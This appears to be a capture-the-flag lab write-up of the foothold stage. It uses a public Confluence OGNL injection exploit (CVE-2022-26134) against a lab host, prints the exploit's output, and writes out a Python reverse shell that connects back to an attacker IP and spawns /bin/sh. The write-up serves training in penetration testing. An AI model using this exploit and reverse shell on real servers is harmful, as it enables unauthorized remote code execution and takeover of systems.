 ## Foothold

The "Confluence Data Center 7.18.0 - Remote Code Execution (RCE)" looks promising, but unsure if this is the right product. I look at the code to learn more. From the code we learn that this affects "all versions < 7.4.17 versions before 7.18.1". Hard to tell if the author meant between 7.4.17 and 7.18.1 or any under 7.4.17. Also still unsure of whether the login form we found is the "confluence data center" product or not.

We already have the code so we give it a try:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // uid=1001(confluence) gid=1001(confluence) groups=1001(confluence) 

[!] Saving the output result in: exploit_result.txt
```

Seems like it worked! So we move on to set up a reverse shell. I write my shell in a file in Kali:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ cat rshell.py
#!/usr/bin/env python3

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.45.172",8090))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

I chose to specifically use `python3` because `which python3` came back with results and `which python` did not when testing on the exploit script:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'which python'           
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // 

[!] Saving the output result in: exploit_result.txt
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'which python3'
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // /usr/bin/python3 

[!] Saving the output result in: exploit_result.txt
```
